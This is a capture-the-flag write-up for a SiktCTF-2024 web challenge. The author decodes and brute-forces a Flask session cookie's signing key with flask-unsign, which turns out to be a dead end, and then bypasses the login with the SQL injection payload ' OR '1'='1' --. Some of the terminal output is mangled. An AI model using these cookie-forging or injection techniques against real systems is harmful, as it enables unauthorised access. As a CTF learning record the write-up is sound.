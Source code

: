 <h2>Challenge description:</h2>

```

```

<h2>Solve:</h2>
<details>
    <summary>The dead cookie end</summary>
Looked at alot of different possible exploits. Started off with looking at the webserver "python-werkzeug" which was version 2.0.2 (quite old) and is supposed to only be used in a dev envireoment. Found some exploits related to debug mode and the "/console" path, but that was not enabled.

The app has a form that is posted to "/login". In the response you are redirected to "/" and told to set a cookie.

I started looking at the Set-Cookie response from the webserver since it seemed that there was some logic related to it. ("login failed" appeard when you presented the cookie)

![The Set-Cookie response](image.png)

Turns out Flask has its own session handling system. You can read the session variables by using flask-unsign:
```
(python) h@flakse:~/git/SiktCTF-2024/Web/squire/python$ flask-unsign -d -c eyJfZmxhc2hlcyI6W3siIHQiOlsiZXJyb3IiLCJMb2dpbiBmYWlsZWQhIl19XX0.ZwrjKA.AGDduQlwNvuV6B8RXOKaXFnQKXY
{'_flashes': [('error', 'Login failed!')]}
(python) h@flakse:~/git/SiktCTF-2024/Web/squire/python$ 
```
I stumbled upon [this](https://ldvargas.medium.com/hackpackctf-cookie-forge-3d922862d383) site when googling for more information. In that writeup they brute-force the key used for signing the cookie. After recovering the key they can sign their own, evil, cookie and the server will accept it.

I decided to try bruteforcing myself:
```
(python) h@flakse:~/git/SiktCTF-2024/Web/squire/python$ flask-unsign -u -c eyJfZmxhc2hlcyI6W3siIHQiOlsiZXJyb3IiLCJMb2dpbiBmYWlsZWQhIl19XX0.ZwrjKA.AGDduQlwNvuV6B8RXOKaXFnQKXY
[*] Session decodes to: {'_flashes': [('error', 'Login failed!')]}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2176): -----BEGIN PRIVATE KEY-----ECR
[+] Found secret key after 21760 attemptsastHlWgH4UWQ
'supersecretkey'
(python) h@flakse:~/git/SiktCTF-2024/Web/squire/python$ 
```

We got the secret!! "supersecretkey" 🥳

Now we just need to figure out what a successful login cookie looks like.

<h3>Or so i thought...</h3>
</details>


Turns out this was a dead end. After many hours i trying random fields in the cookie i started to look elsewhere. By unlocking a hint i knew i needed to look for SQL injections on the site

![SQL injection](image-1.png)'

After som trial and error i noticed that i would get a 500 response code if i had "admin" as username and " ' " as password. Changing out admin for another name did not result in a 500, so i was on to something.

I ended up trying a lot of different SQL Injection examples and eventually found this one:
``` 
username=admin&password=' OR '1'='1' --
```

Suddenly the server responded with the following:
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 599
Vary: Cookie
Server: Werkzeug/2.0.2 Python/3.9.19
Date: Sun, 13 Oct 2024 13:08:22 GMT

<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Success</title>
    <link href="https://fonts.googleapis.com/icon?family=Material+Icons" rel="stylesheet">
    <link href="https://fonts.googleapis.com/css2?family=Roboto:wght@300;400;500;700&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="/static/styles.css">
  </head>
  <body>
    <div class="card">
      <h1>Yippie!</h1>
      <p>You have logged in successfully.</p>
      <img src="/static/success.gif" alt="Success GIF">
      <br>
      <a href="/logout">Logout</a>
    </div>
  </body>
</html>
``` 

Loading the refrenced "/static/success.gif" gave me a gif with the flag!
![Flag GIF](success.gif)


<h2>Flag:</h2>

```
SiktCTF{YouDidItMiLord}
```
